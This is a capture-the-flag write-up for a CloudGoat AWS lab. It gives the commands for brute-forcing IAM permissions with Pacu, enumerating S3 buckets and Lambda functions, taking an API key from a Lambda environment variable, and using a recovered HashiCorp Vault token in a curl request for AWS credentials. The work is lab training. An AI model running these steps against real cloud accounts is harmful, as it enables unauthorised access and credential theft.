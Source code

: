 
## Initial Access

Configure our credentials:

```bash
aws configure —profile cloud
```

## Enumerating Base Credentials

From here we want to enumerate our permissions on our account.

Unfortunately, we don’t have permissions to list all permissions — however, utilizing Pacu we can brute-force permissions and see we can do the following:

```bash
"lambda:ListFunctions",
"dynamodb:DescribeEndpoints",
"sts:GetSessionToken",
"sts:GetCallerIdentity",
"s3:ListBuckets"
```

### ✅ **Current Permissions Summary**

| Permission | Description |
| --- | --- |
| `lambda:ListFunctions` | List all deployed Lambda functions — you may discover code or ARNs to exploit. |
| `dynamodb:DescribeEndpoints` | Not too helpful on its own — likely irrelevant here. |
| `sts:GetSessionToken` | Useful to request temporary credentials (probably later in the chain). |
| `sts:GetCallerIdentity` | Identify who you are (e.g., ARN, Account ID, User ID). |
| `s3:ListBuckets` | List the names of all S3 buckets — doesn't give contents yet. |

## Enumerating Buckets

Since we have list bucket permissions — let’s list them and see if we find anything:

```bash
Found bucket "cg-secrets-bucket-..."
Found bucket "elasticbeanstalk-us-east-1-..."
```

## Enumerating Lambda

We find an API key and some roles:

- API Key: `DavidsDelightfulDonuts2023`
- Role: `lambda_execution_role-...`

```json
"FunctionName": "cloudgoat-secrets-lambda-...",
"Environment": {
  "Variables": {
    "API_KEY": "DavidsDelightfulDonuts2023"
  }
}
```

## Summary of Current Findings

### ✅ Lambda Function
- Env var: API Key found
- Role used by function noted

### ✅ S3 Buckets
- One secrets-related
- One possibly used by Elastic Beanstalk

## Invoke Lambda Functions

```bash
aws lambda invoke --function-name cloudgoat-secrets-lambda-... response.json --region us-east-1 --profile cloud
```

Check the output:

```bash
cat response.json
{"errorMessage": "Unable to import module 'lambda_function': No module named 'lambda_function'"}
```

## S3 Enumeration

```bash
aws s3 ls s3://cg-secrets-bucket-.../nates_web_app_url.txt --profile cloud --region us-east-1
aws s3 cp s3://cg-secrets-bucket-.../nates_web_app_url.txt . --profile cloud --region us-east-1
cat nates_web_app_url.txt
http://3.239.102.94:8080
```

## Exploring the Webpage

A form for an API key is found. Using the API key returns a Vault Token:

- Vault Token: `TorysTotallyTubular456`

## What’s a Vault Token?

A Vault token is a temporary authentication credential used to access secrets in HashiCorp Vault.

Example API call:

```bash
curl -H "X-Vault-Token: TorysTotallyTubular456" http://<vault-server>:8200/v1/secret/data/aws-creds
```

Confirmed that this is a HashiCorp Vault endpoint — useful for understanding the flow.

---
